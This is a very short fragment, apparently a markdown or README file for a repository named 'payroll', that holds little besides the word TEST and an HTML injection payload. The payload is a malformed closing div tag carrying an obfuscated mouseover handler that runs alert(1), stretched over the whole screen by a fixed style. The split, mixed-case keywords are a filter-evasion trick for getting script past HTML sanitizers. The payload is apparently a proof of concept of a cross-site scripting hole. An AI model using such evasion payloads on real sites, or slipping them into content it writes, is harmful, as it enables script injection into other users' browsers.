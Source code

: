 # payroll
TEST
<div></div/onmouONMOUSEOVERseover="alert(1)" stSTYLEyle="position:fixed;left:0;top:0;width:9999px;height:9999px;">
